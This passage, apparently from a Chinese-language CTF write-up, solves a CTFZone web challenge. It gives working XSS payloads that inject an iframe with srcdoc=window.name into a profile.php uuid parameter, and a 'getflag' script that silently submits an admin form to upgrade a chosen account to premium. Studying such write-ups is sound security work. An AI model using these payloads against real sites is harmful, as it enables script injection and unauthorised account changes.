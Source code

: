    将 window.name 设置为`<long payload> `。

   将该html放在vps上，然后提交即可。

   ![](/assets/ctfzone/TIM截图20180803213031.png)

   getflag

   ![](/assets/ctfzone/TIM截图20180803212919.png)

6. 解法2:

   payload:

   ```
   http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid="><iframe onload=srcdoc=window.name>
   ```

   `iframe`在使用参数`srcdoc`加载的时候，会被当做同一个源。

   测试，在Firefox下测试

   打开Firefox,在控制台中输入:

   ```
   window.name='<script>alert("This is XSS!")</scrip'+'t>';
   ```

   接下来一次在控制台中输入:

   ```
   window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E';
   ```

   发现成功弹窗户。

   ![](/assets/ctfzone/TIM截图20180803214831.png)

   在次输入:

   ```
   window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=window.name%3E';
   ```

   我们会发现，再不添加`srcdoc`参数的情况下，不在弹窗。

   ![](/assets/ctfzone/TIM截图20180803214950.png)

   getflag:

   ```
   <script>
   window.name = `
   <script>
   window.frameElement.onload=null;
   console.log(window.parent.document.body.innerHTML);
   function elo()
   {
   document.getElementById('cudo').onload=null;
   r = document.getElementById('cudo').contentWindow.document;
   r.getElementsByName('user_uuid')[0].value = 'dbb306dd-28c1-4333-88ba-9588842f08e0';
   r.getElementsByName('status')[0].value = 'premium';
   r.getElementById('user_manage').submit();
   }
   
   `
   window.name += '</scrip'+'t><iframe src="/manage.php" onload="elo()" id="cudo">';
   window.location = 'http://web-04.v7frkwrfyhsjtbpfcppnu.ctfz.one/profile.php?uuid=%22%3E%3Ciframe%20onload=srcdoc=window.name%3E'
   ```